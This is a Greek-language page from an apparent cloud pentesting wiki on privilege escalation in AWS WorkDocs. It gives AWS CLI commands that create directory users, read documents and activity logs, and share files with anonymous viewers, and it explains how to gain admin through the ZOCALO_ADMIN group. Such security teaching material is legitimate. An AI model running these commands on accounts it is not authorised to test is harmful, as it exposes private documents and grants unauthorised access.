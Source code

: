# AWS - Ανέβασμα Προνομίων στο WorkDocs

## WorkDocs

Για περισσότερες πληροφορίες σχετικά με το WorkDocs, ανατρέξτε στο:

{% content-ref url="../../aws-pentesting/aws-services/aws-directory-services-workdocs-enum.md" %}
[aws-directory-services-workdocs-enum.md](../../aws-pentesting/aws-services/aws-directory-services-workdocs-enum.md)
{% endcontent-ref %}

### `workdocs:CreateUser`

Δημιουργήστε έναν χρήστη μέσα στον κατάλογο που έχει καθοριστεί, έτσι θα έχετε πρόσβαση τόσο στο WorkDocs όσο και στο AD:
```bash
# Create user (created inside the AD)
aws workdocs create-user --username testingasd --given-name testingasd --surname testingasd --password <password> --email-address name@directory.domain --organization-id <directory-id>
```
### `workdocs:GetDocument`, `(workdocs:`DescribeActivities`)`

Τα αρχεία μπορεί να περιέχουν ευαίσθητες πληροφορίες, διαβάστε τα:
```bash
# Get what was created in the directory
aws workdocs describe-activities --organization-id <directory-id>

# Get what each user has created
aws workdocs describe-activities --user-id "S-1-5-21-377..."

# Get file (a url to access with the content will be retreived)
aws workdocs get-document --document-id <doc-id>
```
### `workdocs:AddResourcePermissions`

Αν δεν έχετε πρόσβαση για να διαβάσετε κάτι, μπορείτε απλά να το χορηγήσετε.
```bash
# Add permission so anyway can see the file
aws workdocs add-resource-permissions --resource-id <id> --principals Id=anonymous,Type=ANONYMOUS,Role=VIEWER
## This will give an id, the file will be acesible in: https://<name>.awsapps.com/workdocs/index.html#/share/document/<id>
```
### `workdocs:AddUserToGroup`

Μπορείτε να καταστήσετε έναν χρήστη διαχειριστής θέτοντάς τον στην ομάδα ZOCALO_ADMIN.\
Για να το κάνετε αυτό, ακολουθήστε τις οδηγίες από [https://docs.aws.amazon.com/workdocs/latest/adminguide/manage\_set\_admin.html](https://docs.aws.amazon.com/workdocs/latest/adminguide/manage\_set\_admin.html)

Συνδεθείτε με αυτόν τον χρήστη στο workdoc και αποκτήστε πρόσβαση στον διαχειριστικό πίνακα στη διεύθυνση `/workdocs/index.html#/admin`

Δεν βρήκα κάποιον τρόπο να το κάνω αυτό από το cli.
